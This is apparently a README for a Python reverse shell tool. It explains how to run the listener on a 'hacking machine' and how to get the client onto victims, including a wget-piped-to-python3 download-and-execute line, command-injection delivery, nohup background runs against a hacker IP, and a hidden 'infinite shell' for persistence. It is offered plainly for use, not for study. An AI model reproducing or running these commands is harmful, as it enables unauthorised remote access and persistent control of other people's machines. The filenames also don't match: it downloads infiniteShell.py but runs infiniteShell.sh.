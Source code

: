 # Usage

## On Hacking machine
`python3 rs_server.py`
<- edit the file to use the port you want or pass it in as an argument (default 8000). 

## Direct Client Deployment
`python3 rs_client.py`
^ edit the file to use the rs_server IP and port you want. 

Or pass them in as an argumenta (default port 8000)
`python3 rs_client.py <rs_server_ip> <rs_server_port>`

Or run as a backgroud job
`nohup python3 rs_client.py <hacker_ip> &> /dev/null &`

## Indirect Client Deployment [PREFERRED]
(works with cmd line injection)

- [SERVER] Host rs_client.py somehere
- - One option is to start a python web server on the rs_server
- - `python3 -m http.server 8080`   
- [CLIENT] Download + Execute from client machine
- - `wget -O - <rs_server:8080/rs_client.py> | python3`
- [SERVER] Download + Execute the Infinite shell (keeps rs_client active if it disconnects)
- - Follow these steps once server is connected to client.
- - Navigate to specific dir or Make a hidden dir
- - - `cd /usr/bin/local`  
- - Download from your rs_server
- - - `wget <rs_server:8080/infiniteShell.py>`
- - Run in background witn nohup  
- - - `nohup bash infiniteShell.sh &> /dev/null &`


## Indirect Client Deployment [ALT]
- Could also exploit a file upload vulnerability and upload the file onto the victim's machine


### Port as an optional argument
Both scripts communicate on port 8000 by default.
This can be changed to another port - but you would need to make sure both scripts have the same port..

